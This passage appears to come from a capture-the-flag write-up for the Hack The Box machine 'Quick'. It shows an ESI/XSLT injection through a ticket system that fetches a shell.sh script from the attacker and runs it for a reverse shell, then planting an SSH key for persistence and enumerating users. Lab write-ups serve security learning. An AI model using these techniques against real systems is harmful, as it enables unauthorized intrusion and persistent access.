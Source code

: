 Then I created a new ticket that links to the stylesheet **esi.xsl** I just created.

![](/assets/images/htb-writeup-quick/image-20200425201534969.png)

![](/assets/images/htb-writeup-quick/image-20200425201623053.png)

After searching for the ticket number 7644, I saw the **shell.sh** file was downloaded from my machine.

![](/assets/images/htb-writeup-quick/image-20200425201650309.png)

![](/assets/images/htb-writeup-quick/image-20200425201707232.png)

Then, I modified the **esi.xsl** file and changed the command to execute the **shell.sh** file and get a reverse shell.

```
[...]
<xsl:variable name="cmd"><![CDATA[bash shell.sh]]></xsl:variable>
[...]
```

After searching for that same ticket again, I got a connection back.

![](/assets/images/htb-writeup-quick/image-20200425202811702.png)

```
$ cd /home/sam
$ ls
esigate-distribution-5.2
shell.sh
user.txt
$ cat user.txt
66246c9fe[...]
```

I dropped my SSH public key to `/home/sam/.ssh/authorized_keys` so I could log in directly with a proper SSH shell.

## Privesc to user srvadm

The box has two users:

- sam
- srvadm

```
sam@quick:~$ tail -n 5 /etc/passwd
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
sam:x:1000:1000:sam:/home/sam:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
srvadm:x:1001:1001:,,,:/home/srvadm:/bin/bash
sam@quick:~$ ls -l /home
total 8
drwxr-xr-x 7 sam    sam    4096 Apr 26 00:18 sam
drwxr-xr-x 6 srvadm srvadm 4096 Mar 20 06:37 srvadm
```

